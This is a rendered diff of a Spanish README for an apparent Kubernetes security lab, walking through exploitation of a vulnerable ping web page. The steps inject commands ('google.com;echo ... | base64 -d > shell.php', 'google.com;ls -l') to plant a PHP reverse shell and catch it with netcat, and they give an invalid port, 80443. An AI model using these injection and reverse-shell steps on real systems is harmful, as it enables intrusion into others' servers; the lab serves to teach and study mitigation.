

Before and after one commit to Alfesito/Desarrollo-e-Implementacion-de-Medidas-Mitigantes-en-Vulnerabilidades-de-Kubernetes, a Markdown page: kube-lab/lab-pentest/README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/kube-lab/lab-pentest/README.md
+++ b/kube-lab/lab-pentest/README.md
@@ -5,30 +7,29 @@ minikube service --all
 
-minikube lanza un IP con un puerto donde hay una web para lanzar ping a dominios o IPs. Dicha página es vulnerable a LFI:
-
-![../../images/googlecom_ls.png]([file://../../images/googlecom_ls.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/ping%20web.png))
+Dicha página es vulnerable a LFI:
+![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png)
 
 Por ello intentaremos transformar el LFI a RCE a través de una reverse shell con PHP, modificando la IP y el puerto donde vamos a escuchar con netcat con nuestra máquina. Nuestro objetivo es conseguir escribir un archivo dentro del sistema al cual accediendo se lanza una shell en nuestra máquina que está escuchando. Más información del proceso en [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Pasos:
+
 1. Cambiamos la IP y el puerto y basemos el archivo php-revshell.php a base64.
 ```bash
 base64 php-revshell.php
 ```
-1. Ejecutamos este comando el la web (utilizando como IP la 192.168.1.131 y el puerto 80443):
+
+2. Ejecutamos este comando el la web (utilizando como IP la 192.168.1.131 y el puerto 80443):
 ```bash
 google.com;echo "<php-revshell in base64>" | base64 -d > shell.php
 ```
-1. Verificamos que se ha subido el archivo shell.php:
-```bash
-google.com;ls -l
-```
-![/home/alfesito/Documents/TFG/TFG-kubevuln/images/googlecom_ls.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/googlecom_ls.png)
-1. Ahora en nuestra máquina escuchamos por el puerto que hemos definido en el archivo php, en este caso el 80443:
+
+3. Verificamos que se ha subido el archivo shell.php: ```bash google.com;ls -l ```
+![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png)
+
+4. Ahora en nuestra máquina escuchamos por el puerto que hemos definido en el archivo php, en este caso el 80443:
 ``` bash
 nc -lvp 80443
 ```
-1. Una vez escuchando en el puerto, ejecutamos el comando:
+2. Una vez escuchando en el puerto, ejecutamos el comando:
 ```bash
 curl http://<ip-web>:<puerto-web>/shell.php
 ```
 Conseguimos entrar en el pod donde se está ejecutando el servicio web.
-![/home/alfesito/Documents/TFG/TFG-kubevuln/images/revshell.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/revshell.png)
 
````
Also changed, not shown: other parts of kube-lab/lab-pentest/README.md (+23 -26 lines).
